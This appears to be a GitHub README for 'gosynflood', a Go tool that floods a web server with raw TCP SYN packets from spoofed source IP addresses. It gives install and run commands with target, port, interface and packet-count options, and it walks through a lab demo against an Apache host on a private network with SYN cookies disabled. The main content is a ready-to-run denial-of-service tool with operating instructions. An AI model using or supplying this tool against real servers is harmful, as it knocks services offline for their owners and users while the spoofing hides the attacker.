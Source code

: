 
### gosynflood - Repeatedly Send Raw TCP SYN Packets

###### USAGE:
<pre>
  <code>
# get the project
go get github.com/rootVIII/gosynflood


# Navigate to project root and build:
go build .

# raw sockets require root privileges when executing:
sudo ./gosynflood \
    -t &lt;target IPV4 address&gt; \
    -p &lt;port number&gt; \
    -i &lt;network interface&gt; \
    -n &lt;number of packets&gt;

# Example:
sudo ./gosynflood -t 192.168.1.120 -p 80 -i wlp3s0 -n 500
  </code>
</pre>

###### CLI OPTIONS:
<pre>
  <code>
-t private or public IP address of webserver
-p port number (defaults to port 80 if not provided)
-i network interface (run program without -i to see found interfaces)
-n number of TCP packets to send (defaults to 1000 if not provided)
  </code>
</pre>

Each packet's IP address is spoofed. MAC addresses are not spoofed however.

This attack may only work on web servers that for some reason do not have a method
of preventing numerous half-open connections (SYN_RECV).

To demonstrate this, a small Ubuntu Mate running Apache2 will act as the target.
It's a physical machine on a private network.

<hr>
1. The tcp_syncookies flag is set to 0 and the webserver is started on the target:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/1.png">


2. The attacker machine (a separate physical machine also running Ubuntu) executes the gosynflood exe with root privileges:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/5.png">


3. The initial SYNs are visible in Wireshark on the target
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/2.png">
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/3.png">


4. During the attack the webserver should be unreachable at it's URL if it is susceptible. The half-open connections are visible via the command <code>netstat -na --tcp</code>
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/4.png">




This was developed on Ubuntu 18.04 LTS.
<hr>
<b>Author: rootVIII  2018-2020</b>
<br><br>